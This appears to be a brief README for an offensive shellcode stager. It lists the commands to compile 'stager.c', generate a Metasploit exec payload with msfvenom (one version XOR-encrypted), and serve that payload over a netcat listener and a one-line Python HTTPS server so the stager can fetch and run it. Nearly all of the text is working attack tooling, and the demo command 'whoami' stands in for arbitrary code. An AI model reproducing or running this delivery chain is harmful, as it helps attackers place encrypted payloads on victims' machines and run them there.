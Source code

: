 
//32 bits
gcc stager.c -m32 -lssl


//64 bits
gcc stager.c -lssl


//create payload
msfvenom -p linux/x86/exec cmd="whoami" exitfunc=none/thread -f raw -o shell
msfvenom -p linux/x86/exec cmd="whoami" exitfunc=none/thread --encrypt=xor --encrypt=YoloSpaceHacker -f raw -o shell


//serve payload
nc -lvnp 9000 < shell

sudo python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);context = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER);context.load_cert_chain('localhost.pem', 'localhost.key');httpd.socket=context.wrap_socket(httpd.socket,server_side=True);httpd.serve_forever()"

